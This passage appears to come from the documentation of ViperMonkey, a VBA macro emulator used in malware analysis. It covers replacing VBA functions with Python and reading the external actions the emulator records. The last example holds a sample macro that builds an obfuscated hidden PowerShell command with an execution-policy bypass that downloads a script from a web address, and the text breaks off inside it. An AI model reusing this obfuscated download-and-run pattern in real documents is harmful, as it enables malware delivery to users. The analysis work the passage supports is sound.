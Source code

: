 ## Replacing Functions
A Function or Sub may be replaced with a Python implemented function. This is useful to help speed up the parsing of a known function or to replace a function that will most likely fail due to its complexity.

To replace a function, update the `Context` object's `global` dictionary with a function that accepts two parameters `context` and `params` and may return a result. 

```python
import base64
import vipermonkey

vba_code = r'''
Public Function Base64Decode(ByVal s As String) As Byte()
    ' Some complex code
End Function

Public Sub Document_Open()
    Dim result As String
    result = Base64Decode("aGVsbG8gd29ybGQh")
Enc Sub
'''

def replaced_base64(context, params):
    return base64.b64decode(params[0])

context = vipermonkey.Context()
module = vipermonkey.Module(vba_code)
# NOTE: The function should be replaced after the context is evaluated by the module. Otherwise the module will replace your function.
module.load_context(context)

context.globals['Base64Decode'] = replaced_base64

document_open = context['Document_Open']
document_open.load_context(context)
print("DECODED DATA: ", context['result'])

```
```
DECODED DATA:  hello world!
```

NOTE: Since replacing a Base64 function is so common, this function has already been implemented for you and can be accessed with `vipermonkey.Base64DecodeString`.

## Reporting Actions
During emulation, ViperMonkey records unique and interesting actions would have effects to the external system (e.g. dropped files, command execution, and HTTP requests). These actions can be accessed from the `Context` object's `.actions` attribute.

```python
import vipermonkey

vba_code = r'''
Public Function Execute() As Variant

Dim m1, m2, m3, m4 As String

m1 = "p" & "o" & "w" & "e" & "r" & "s" & "h" & "e" & "l" & "l" & " " & "-" & "w" & " " & "h" & "i" & "d" & "d" & "e"
m2 = "n" & " -" & "e" & "x" & "e" & "c" & " b" & "y" & "p" & "a" & "s" & "s " & "-" & "c " & Chr(34)
m3 = "$a" & "=" & "Invoke" & "-" & "We" & "bRequest" & " ww" & "w.example.com" & "/" & "scr" & "ipt.txt"
```